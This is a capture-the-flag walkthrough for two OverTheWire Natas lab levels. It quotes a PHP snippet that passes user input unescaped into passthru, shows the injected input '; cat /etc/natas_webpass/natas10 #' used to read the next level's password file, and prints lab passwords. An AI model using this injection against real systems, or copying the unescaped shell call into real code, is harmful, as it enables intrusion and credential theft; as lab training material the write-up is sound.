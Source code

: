 
## Natas Level 8 → Level 9

> Solution: decode the base64

Username: natas9
URL:      https://natas9.natas.labs.overthewire.org
W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

```html
Find words containing:
Output:
--------------------------------------------------------
sourcecode:
<pre>
<?
$key = "";
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}
if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>
--------------------------------------------------------
# type in the word “password”
# then the passthru command in the PHP script:
grep -i password dictionary.txt.
# key is encapsulated in quotes, no input filtering, able to enter special characters.
--------------------------------------------------------
use the ";" command separator to use 2 commands in one line.
use the "#" command, comment out the rest of the text following the symbol.

in the input field type
"; cat /etc/natas_webpass/natas10 #"
in turn will run the passthru command as such;
"grep -i ; cat /etc/natas_webpass/natas10 #, commenting out and removing dictionary.txt."
--------------------------------------------------------
Output:
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
--------------------------------------------------------
```

---

## Natas Level 9 → Level 10

> Solution: decode the base64

Username: natas10
URL:      https://natas10.natas.labs.overthewire.org
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
